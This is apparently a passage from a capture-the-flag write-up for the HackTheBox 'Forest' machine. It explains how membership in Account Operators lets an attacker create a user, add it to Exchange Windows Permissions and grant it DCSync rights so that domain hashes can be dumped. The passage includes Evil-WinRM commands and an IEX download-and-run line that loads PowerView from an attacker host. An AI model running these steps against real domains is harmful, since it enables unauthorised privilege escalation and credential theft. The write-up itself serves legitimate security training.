 # Finding Shortest Paths to Domain Admins from Owned Principals(svc-alfreso user)
First of all we will mark svc-alfresco as owned.
![[Pasted image 20210727192051.png]]
Then we will find Shortest Paths to Domain Admins from Owned Principals(svc-alfreso user)
![[Pasted image 20210727192533.png]]
As svc-alfresco user is member of Account Operators group, so The Account Operators group grants limited account creation privileges to a user. Members of this group can create and modify most types of accounts, including those of users, local groups, and global groups, and members can log in locally to domain controllers.
Members of the Account Operators group cannot manage the Administrator user account, the user accounts of administrators, or the [Administrators](https://docs.microsoft.com/en-us/windows/security/identity-protection/access-control/active-directory-security-groups#bkmk-admins), [Server Operators](https://docs.microsoft.com/en-us/windows/security/identity-protection/access-control/active-directory-security-groups#bkmk-serveroperators), [Account Operators](https://docs.microsoft.com/en-us/windows/security/identity-protection/access-control/active-directory-security-groups#bkmk-accountoperators), [Backup Operators](https://docs.microsoft.com/en-us/windows/security/identity-protection/access-control/active-directory-security-groups#bkmk-backupoperators), or [Print Operators](https://docs.microsoft.com/en-us/windows/security/identity-protection/access-control/active-directory-security-groups#bkmk-printoperators) groups. Members of this group cannot modify user rights. [Link to read about account operators group further](https://docs.microsoft.com/en-us/windows/security/identity-protection/access-control/active-directory-security-groups)
In short, we can create new account and add it to `Exchange Windows Permissions` group because `svc-alfreso` user is member of  Account Operators group via following method.
```powershell

*Evil-WinRM* PS clark:\> net user stuart 1234567 /add /domain
The command completed successfully.

*Evil-WinRM* PS clark:\> net group "Exchange Windows Permissions"
Group name     Exchange Windows Permissions
Comment        This group contains Exchange servers that run Exchange cmdlets on behalf of users via the management service. Its members have permission to read and modify all Windows accounts and groups. This group should not be deleted.

Members

-------------------------------------------------------------------------------
The command completed successfully.

*Evil-WinRM* PS clark:\> net group "Exchange Windows Permissions" /add stuart
The command completed successfully.

*Evil-WinRM* PS clark:\> net group "Exchange Windows Permissions"
Group name     Exchange Windows Permissions
Comment        This group contains Exchange servers that run Exchange cmdlets on behalf of users via the management service. Its members have permission to read and modify all Windows accounts and groups. This group should not be deleted.

Members

-------------------------------------------------------------------------------
stuart
The command completed successfully.

*Evil-WinRM* PS clark:\> net group "Exchange Windows Permissions"
Group name     Exchange Windows Permissions
Comment        This group contains Exchange servers that run Exchange cmdlets on behalf of users via the management service. Its members have permission to read and modify all Windows accounts and groups. This group should not be deleted.

Members

-------------------------------------------------------------------------------
stuart
The command completed successfully.

*Evil-WinRM* PS clark:\>
```
After creating new user `stuart` and adding it to `Exchange Windows Permissions` group, we can use `powerview.ps1`(uploaded to forest machine using command `IEX(New-Object Net.WebClient).downloadString('http://10.10.14.105:8000/powerview.ps1')`) to grant `stuart` newly created user who is member of `Exchange Windows Permissions` group `DCSync` rights privilege after which newly created `stuart` user can dump hashes of all users on forest machine.



